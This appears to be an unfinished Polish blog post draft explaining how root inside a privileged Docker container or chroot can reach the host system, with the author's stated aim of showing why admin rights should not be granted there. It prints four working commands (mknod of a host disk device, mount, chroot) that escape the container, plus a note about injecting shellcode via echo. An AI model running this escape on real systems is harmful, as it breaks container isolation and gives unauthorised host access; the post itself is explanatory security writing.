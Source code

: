 Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-01-19
:Status: draft
:slug: chroot-breaking-1


W tym poście pokażę jak mając *root* w *chroot* dostać się do systemu nadzorcy.  
Tym samym chcę pokazaż, dlaczego nie należy przyznawać praw administratora użytkownikowi nawet w *chroot*.

Crash course
------------

Ponieważ *docker* (podobnie jak większość technologi kontenerowych) używa *chroot*-a, wyjście z *chroot* czy *docker* sprowadza się do tej samej metody.
Poniższa metoda wymaga posiadania konta *root* w kontenerze uruchomionego z uprawnieniami *privileged* (a często takie właśnie kontenery są tworzone)

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Analiza metody
--------------

Metoda wymaga użytkownika *root* w *chroot*

 
Idea: breaking chroot
- mknod, mount, chroot
- przetestować na dockerze
- zrobić w chroot bez binarek poprzez echo -e "<shellcode>"


